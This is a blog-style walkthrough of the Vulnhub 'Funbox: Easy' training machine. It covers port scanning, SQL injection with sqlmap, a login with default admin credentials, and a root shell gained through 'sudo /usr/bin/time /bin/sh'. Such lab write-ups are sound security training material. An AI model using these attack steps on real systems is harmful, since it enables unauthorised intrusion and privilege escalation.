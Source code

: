 ```yaml
---
title: Funbox-:-Easy
categories: [Proving Grounds Play, Funbox]
tags: [PrivEsc, Sqlmap, timedatectl, File Upload, time]
image:
  path: https://www.piratemoo.com/content/images/2022/12/funboxeasy.png
  alt:  Funbox-Easy Machine 🖥️
---
```


| Machine     | <center>Details</center>                                                  |
| ----------- | ------------------------------------------------------------------------- |
| **Vulnhub** | https://www.vulnhub.com/entry/funbox-easy,526/                            |
| **Level**   | <center>script-kiddies</center>                                           |
| **Creator** | <center>[0815R2d2](https://www.vulnhub.com/author/0815r2d2,714/)</center> |


## **Description ⤵️**

>
💡 Boot2Root ! Easy going, but with this Funbox you have to spend a bit more time. Much more, if you stuck in good traps. But most of the traps have hints, that they are traps.
<br>
If you need hints, call me on twitter: @0815R2d2
<br>
Have fun...
<br>
This works better with VirtualBox rather than VMware
<br>
This works better with VirtualBox rather than VMware.
<br>
{: .prompt-info }

### Let’s find the IP Address first >>

![164-1.png](/Vulnhub-Files/img/Funbox-Easy/164-1.png)

```bash
IP : 10.0.2.17
```
{: .nolineno}

## Port Scan Results ➡️

![164-2.png](/Vulnhub-Files/img/Funbox-Easy/164-2.png)

```bash
OPEN PORTS >
22     SSH
80     HTTP
33060  mysql
```
{: .nolineno}



## Web Enumeration ⤵️

![164-3.png](/Vulnhub-Files/img/Funbox-Easy/164-3.png)

![164-4.png](/Vulnhub-Files/img/Funbox-Easy/164-4.png)

![164-5.png](/Vulnhub-Files/img/Funbox-Easy/164-5.png)

So with sql injection on store site I got this →

```bash
command :
sqlmap -u "<URL>" --risk 3 --level 5
```
{: .nolineno}

![164-6.png](/Vulnhub-Files/img/Funbox-Easy/164-6.png)

![164-7.png](/Vulnhub-Files/img/Funbox-Easy/164-7.png)

```bash
admin : admin
```
{: .nolineno}

![164-8.png](/Vulnhub-Files/img/Funbox-Easy/164-8.png)

Got access →

![164-9.png](/Vulnhub-Files/img/Funbox-Easy/164-9.png)

After accessing that page I got this →

![164-10.png](/Vulnhub-Files/img/Funbox-Easy/164-10.png)

---

## SHELL ➡️

Got something →

![164-11.png](/Vulnhub-Files/img/Funbox-Easy/164-11.png)

![164-12.png](/Vulnhub-Files/img/Funbox-Easy/164-12.png)

Now lets check the `sudo -l` for root access through tony →

![164-13.png](/Vulnhub-Files/img/Funbox-Easy/164-13.png)

Now I got too much options so lets try least interesting one time →

```bash
command : sudo /usr/bin/time /bin/sh
```
{: .nolineno}

![164-14.png](/Vulnhub-Files/img/Funbox-Easy/164-14.png)

![164-15.png](/Vulnhub-Files/img/Funbox-Easy/164-15.png)

---

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }
